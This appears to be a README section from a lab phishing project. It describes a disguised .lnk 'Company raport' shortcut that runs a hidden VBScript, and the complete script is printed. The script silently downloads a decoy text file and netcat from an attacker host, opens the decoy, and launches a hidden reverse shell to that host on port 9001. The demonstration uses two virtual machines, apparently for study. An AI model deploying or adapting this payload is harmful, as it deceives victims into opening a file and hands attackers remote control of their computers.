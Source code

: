 When the Company raport shortcut is clicked, connection is set to download fake raport.txt file and netcat from the attacker. When the downloads are done, raport.txt opens while reverse shell is being cooked in the background.

See it in action: https://www.youtube.com/watch?v=ll4ojo6q-rM

Demo was made using 2 virtual machines:

    Kali Linux
    Windows 10

Structure:
Company raport .lnk -> Linked to revsh.vbs inside hidden payload folder

![efROc8J](https://github.com/therealhalonen/PhishSticks/assets/112076418/54cea3ed-6872-4f69-a483-2e6586fe12f6)
![nor5dNd](https://github.com/therealhalonen/PhishSticks/assets/112076418/8ef95081-a269-4667-8b0f-cf9cfb8eb2a5) 

revsh.vbs:

```vbs
Set objShell = CreateObject("Wscript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Download fake report
downloadRaport = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.3/raport.txt', '%TEMP%\raport.txt')"""
objShell.Run downloadRaport, 0, True

' Open report.txt
objShell.Run "cmd /c start """" %TEMP%\raport.txt", 0, True

' Download netcat from attacker IP
downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.3/nc64.exe', '%TEMP%\nc64.exe')"""
objShell.Run downloadCmd, 0, True

' Start reverse shell
execCmd = "cmd /c powershell -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '192.168.56.3', '9001', '-e', 'powershell' -WindowStyle Hidden"""
objShell.Run execCmd, 0, True

Set objFSO = Nothing
Set objShell = Nothing
```

Both Virtual Machines were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command. Attacker machine was set to host raport.txt & nc64.exe  and open up netcat listener:

![2023-11-23_10-54](https://github.com/therealhalonen/PhishSticks/assets/112076418/3e9ea4b2-4ff3-4798-90d6-3dc368e22d44)

